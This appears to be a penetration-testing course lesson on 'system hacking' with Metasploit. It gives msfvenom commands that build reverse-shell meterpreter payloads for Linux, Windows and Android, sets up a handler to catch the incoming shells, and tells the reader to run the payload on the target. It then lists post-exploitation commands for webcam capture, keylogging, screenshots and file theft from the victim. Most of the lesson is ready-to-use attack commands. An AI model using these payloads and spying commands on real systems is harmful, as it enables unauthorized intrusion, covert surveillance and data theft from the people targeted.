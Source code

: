# Day 5 (SYSTEM HACKING)

### What is System Hacking?

System hacking is itself a vast subject which consists of hacking the different software based technological systems such as laptops, desktops, etc. System hacking is defined as the compromise of computer systems and software to gain access to the target computer and steal or misuse their sensitive information. Here the malicious hacker exploits the weaknesses in a computer system or network to gain unauthorized access of its data or take illegal advantage of it.

### Tools Used

**Metasploit** : Metasploit is an open source cyber-security project that allows infosec professionals to use different penetration testing tools to discover remote software vulnerabilities. It also functions as an exploit module development platform.


### Hands on 
#### 1. Creating Metasploit Payloads(Files)
##### List payloads
```sh
msfvenom -l
```
##### Binaries
###### Linux
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf -o shell.elf
```
###### Windows
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -o shell.exe
```
###### Android
```sh
msfvenom -p android/meterpreter/reverse_tcp -f apk LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f apk  -o shell.apk
```

#### 2. Setup Listener (Handler)
First open MSFCONSOLE, use the following command to open the metasploit console :

```sh
msfconsole
```
Once the console has started you need to create an appropriate handler to communicate with your payloads.
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Initialize the handler using the following commands.

```sh
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit -i -j
```

#### 3. Execute the Payload
Copy the payload file to our target system and execute the file. The executable causes the payload to be executed and connect back to the attacking machine (Kali Linux). Immediately, we receive a Meterpreter session on our Kali Linux. This is demonstrated by the Meterpreter > prompt as `Meterpreter session 1 opened `. Now we have a shell on the victim machine.

#### 4. Basic Commands on Meterpreter

To connect to a particular session type

```sh
sessions -i <sessions id which is open>
```

##### List of Basic Commands

1. **?** : Help menu
2. **shell** : The shell command will present you with a standard shell on the target system.
3. **webcam_list** : The webcam_list command when run from the Meterpreter shell, will display currently available web cams on the target host.
4. **webcam_snap** : The webcam_snap command grabs a picture from a connected web cam on the target system
```webcam_snap -i 1```
5. **keyscan_dump** : dumps the contents of the software keylogger
6. **keyscan_start** : starts the software keylogger when associated with a process such as Word or browser
7. **keyscan_stop** : stops the software keylogger
8. **screenshot** : grabs a screenshot of the meterpreter desktop
9. **download** : download a file from the victim system to the attacker system
10 . **upload** : upload a file from the attacker system to the victim

### Further Reading

1. [Metasploit](https://www.youtube.com/watch?v=Y6NI12OAMWc&list=PLF23494E2820B442B)
